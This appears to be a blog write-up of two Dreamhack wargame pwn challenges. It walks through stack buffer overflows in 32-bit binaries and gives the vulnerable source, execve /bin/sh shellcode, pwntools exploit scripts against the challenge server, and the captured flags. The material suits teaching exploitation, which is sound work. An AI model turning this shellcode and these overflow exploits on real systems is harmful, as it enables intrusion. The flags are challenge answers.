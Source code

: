 ```yaml
---
title: "[DREAMHACK] - Basic exploitation series"
published: 2024-12-01
description: ""
image: "../image.png"
tags:
  - PWN
category: "Wargame"
draft: false
---
```


## basic_exploitation_00

### Analysis

Let's take a look at the binary:

```bash
➜  basic_exploitation_00 file basic_exploitation_000
basic_exploitation_000: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a0b1247f86255866edcc25bf1af6c782a3d29975, not stripped
➜  basic_exploitation_00 checksec --file=basic_exploitation_000
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   79 Symbols        No    0               1               basic_exploitation_000

```

A 32-bit LSB executable file with no stack canary, so we can be able to smash the stack

Let's look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

So in the main() function there's a vuln here `scanf("%141s", buf);`. The buf just can contain 0x80 byte but our input is 141 bytes so there's a buffer overflow vulnerability.

The idea of this challenge is crafting the shellcode and make it execute by triggering the return address to make it return to our buffer started address have leaked while we run the binary

```bash
➜  basic_exploitation_00 ./basic_exploitation_000
buf = (0xff997ff8)
hello

```

But first things we need to do is find the offset between our input and eip (this is a 32-bit binary)

```nasm
gef➤  tel
0xffffcb80│+0x0000: 0x080486a5  →  "%141s"       ← $esp
0xffffcb84│+0x0004: 0xffffcb88  →  "hello"
0xffffcb88│+0x0008: "hello"
0xffffcb8c│+0x000c: 0x0000006f ("o"?)
0xffffcb90│+0x0010: 0x00000000
0xffffcb94│+0x0014: 0x00000001
0xffffcb98│+0x0018: 0xf7ffda20  →  0x00000000
0xffffcb9c│+0x001c: 0x00000000
0xffffcba0│+0x0020: 0x00000000
0xffffcba4│+0x0024: 0xffffce0b  →  0x98bb4ff4

```

We can see our input start at `0xffffcb88` and the saved eip is `0xffffcc0c` so we can calculate the offset is `0x84`

### Exploit

As the idea above, we need to craft the shellcode, so the first thing we need to do is write an assembly code to use execve() syscall to get shell:

```nasm
section .text
    global _start

_start:
    xor eax, eax; safe null
    push eax; push null byte onto stack
    push 0x68732f2f ; push /bin//sh
    push 0x6e69622f
    mov ebx,esp ; set ebx to out cmd
    xor ecx, ecx; no args
    xor edx, edx ; no args again
    mov al, 0xb ; set sys_execve
    int 0x80

; nasm -f elf shellcode.asm
; ld -m elf_i386 -o shellcode shellcode.o
;  objdump -d shellcode | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\\n' | sed 's/.\\{2\\}/&\\\\x /g'| head -c-3 | tr -d ' ' && echo ' '

```

And our exploit will look like this:

```python
#!/usr/bin/python3

from pwn import *

# context.log_level = 'debug'
exe = context.binary = ELF('./basic_exploitation_000', checksec=False)

# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv()
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

c
''')

p = remote('host3.dreamhack.games',19046) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB:
    GDB()
    input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

buf = int(p.recv()[7:17],16)
print("buf address : "+hex(buf))

payload = b"\\x90"*6
payload += b"\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x08\\x40\\x40\\x40\\xcd\\x80"
payload += b"\\x90"*100 # nop
payload += p32(buf)

p.sendline(payload)

p.interactive()

```

```bash
➜  basic_exploitation_00 python3 exploit.py REMOTE
[+] Opening connection to host3.dreamhack.games on port 19046: Done
buf address : 0xfff90548
[*] Switching to interactive mode
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}$
```

## basic_exploitation_001

### Analysis

This challenge is the same as above but more easy to exploit
So let's take a quick look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

    return 0;
}

```

So our target is `read_flag()` function by using `gets()` function we can easily tell the our program to execute that function

A step to find offset is the same as `basic_exploitation_000`

### Exploit

```python
from pwn import *

p = remote('host3.dreamhack.games', 10179)
exe = ELF('./basic_exploitation_001', checksec = False)

pl = b'A'*132
pl+= p32(exe.sym['read_flag'])

p.sendline(pl)
p.interactive()

```

```bash
➜  basic_exploitation_1 python3 exploit.py
[+] Opening connection to host3.dreamhack.games on port 10179: Done
[*] Switching to interactive mode
DH{01ec06f5e1466e44f86a79444a7cd116}[*] Got EOF while reading in interactive

```
